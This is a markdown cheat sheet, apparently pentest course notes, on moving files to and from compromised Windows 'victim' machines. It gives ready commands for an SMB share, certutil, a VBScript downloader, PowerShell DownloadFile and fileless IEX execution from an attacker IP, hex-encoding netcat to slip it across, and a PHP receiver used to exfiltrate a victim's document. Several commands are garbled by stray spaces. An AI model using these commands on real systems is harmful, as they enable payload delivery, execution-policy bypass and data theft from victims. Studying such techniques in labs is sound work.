 # Windows File Transfers

* FTP on attacker machine
- Can also use tftp for file transfers  


### Easiest file transfer
**Attacker -> Victim machine**
1. On attacking Machine: `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .`
	On Windows victim Machine: `copy \\10.2.0.32\kali\jaws-enum.ps1 C:\\jaws.ps1`

2. certutil -urlcache -f  `<url>` `<executable>`

### Windows Simple HTTP downloader VBs
**Attacker - Victim machine**
```
cho	strUrl	=	WScript.Arguments.Item(0)	>	wget.vbs	
echo	StrFile	=	WScript.Arguments.Item(1)	>>	wget.vbs
echo	Const	HTTPREQUEST_PROXYSETTING_DEFAULT	=	0	>>	wget.vbs
echo	Const	HTTPREQUEST_PROXYSETTING_PRECONFIG	=	0	>>	wget.vbs
echo	Const	HTTPREQUEST_PROXYSETTING_DIRECT	=	1	>>	wget.vbs
echo	Const	HTTPREQUEST_PROXYSETTING_PROXY	=	2	>>	wget.vbs
echo	Dim	http,	varByteArray,	strData,	strBuffer,	lngCounter,	fs,	ts	>>	wget.vbs
echo	Err.Clear	>>	wget.vbs
echo	Set	http	=	Nothing	>>	wget.vbs
echo	Set	http	=	CreateObject("WinHttp.WinHttpRequest.5.1")	>>	wget.vbs
echo	If	http	Is	Nothing	Then	Set	http	=	CreateObject("WinHttp.WinHttpRequest")	>>	wge	t.vbs
echo	If	http	Is	Nothing	Then	Set	http	=	CreateObject("MSXML2.ServerXMLHTTP")	>>	wget.	vbs
echo	If	http	Is	Nothing	Then	Set	http	=	CreateObject("Microsoft.XMLHTTP")	>>	wget.vbs	
echo	http.Open	"GET",	strURL,	False	>>	wget.vbs
echo	http.Send	>>	wget.vbs
echo	varByteArray	=	http.ResponseBody	>>	wget.vbs
echo	Set	http	=	Nothing	>>	wget.vbs
echo	Set	fs	=	CreateObject("Scripting.FileSystemObject")	>>	wget.vbs
echo	Set	ts	=	fs.CreateTextFile(StrFile,	True)	>>	wget.vbs
echo	strData	=	""	>>	wget.vbs
echo	strBuffer	=	""	>>	wget.vbs
echo	For	lngCounter	=	0	to	UBound(varByteArray)	>>	wget.vbs
echo	ts.Write	Chr(255	And	Ascb(Midb(varByteArray,lngCounter	+	1,	1)))	>>	wget.vbs	
echo	Next	>>	wget.vbs
echo	ts.Close	>>	wget.vbs	
```

To run the above:  `cscript wget.vbs http://10.11.0.4/evil.exe evil.exe`

### Using powershell
**Attacker - Victim machine**
Another way on newer machines is to use powershell:
```
C:\Users\Offsec> echo $webclient = New-Object System.Net.WebClient >>wget.ps1 C:\Users\Offsec> echo $url = "http://10.11.0.4/evil.exe" >>wget.ps1 C:\Users\Offsec> echo $file = "new-exploit.exe" >>wget.ps1 C:\Users\Offsec> echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

Run the above using `powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoPro file -File wget.ps1`  
Powershell default exec policy is restriction, no logo to not seee logo and nopro for prevention of loading default profile

Can do the same in one line without creating a file:   
`c> powershell.exe (New-Object System.Net.WebClient).DownloadFile('http:/ /10.11.0.4/evil.exe', 'newexploit.exe')`

Can also execute a file without saving it to disk:
`powershell.exe IEX (New-Object System.Net.WebClient).DownloadString(' http://10.11.0.4/helloworld.ps1')`


### Windows Downloads with exe2hex and PowerShell
**Attacker - Victim machine**
Compress a binary, then convert to a hex string, embed to a windows script
Can use UPX: PE compression tool

On attacker machine: `upx -9 nc.exe`
`exe2hex -x nc.exe -p nc.cmd`
Transfer the nc file and on the windows host, run `powershell -Command "$h=Get-Content -readcount 0 -path './nc.hex';$l=$ h[0].length;$b=New-Object byte[] ($l/2);$x=0;for ($i=0;$i -le $l-1;$i+=2){$b[$x]=[byte ]::Parse($h[0].Substring($i,2),[System.Globalization.NumberStyles]::HexNumber);$x+=1}; set-content -encoding byte 'nc.exe' -value $b;Remove-Item -force nc.hex;"`
command above can be found in the nc.cmd 


### Windows uploads using scripting languages
**Victim - Attacker machine**
On attacker kali machine, start an apache server and create an uploads directory. Change owner to www-data
```
<?php	
$uploaddir	=	'/var/www/uploads/';
$uploadfile	=	$uploaddir	.	$_FILES['file']['name'];	
move_uploaded_file($_FILES['file']['tmp_name'],	$uploadfile)	?>	
```

From windows machine: `powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')`

